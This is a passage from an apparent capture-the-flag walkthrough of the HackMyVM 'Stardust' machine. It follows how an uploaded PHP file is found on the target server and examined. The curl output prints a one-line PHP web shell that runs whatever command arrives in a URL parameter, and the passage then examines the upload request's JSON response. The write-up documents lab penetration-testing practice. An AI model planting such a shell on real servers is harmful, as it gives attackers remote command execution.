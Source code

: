 The file appears to be stored in the files directory. If we browse to the PHP directory under that directory we shall see our PHP file.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-stardust/find-file-1.png)
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-stardust/find-file-2.png)

The file appears to be stored in his directory with a random name and the upper case PHP extension. This extension prevents the execution of the file by the web server. We can confirm that this is our file by reading its content.
```bash
┌──(pentester㉿kali)-[~/Stardust/Misc File]
└─$curl http://10.0.2.23/files/PHP/f1/6d1122d450c92e85174c1984c70c2d6e4bdeb3.PHP
<?php system($_GET["cmd"]); ?>
```

If we take a look at the requests made we will notice that three POST requests were made one of which uploaded the file.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-stardust/three-requests.png)

When we take a look at the POST request made to the fileupload.php file responsible for uploading our shell we will notice that JSON data is returned to us. This data appears to contain a URL to access and delete the temporary file created on the server.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-stardust/raw-req-res.png)
```bash
┌──(pentester㉿kali)-[~/Stardust/Misc File]
└─$ echo '
```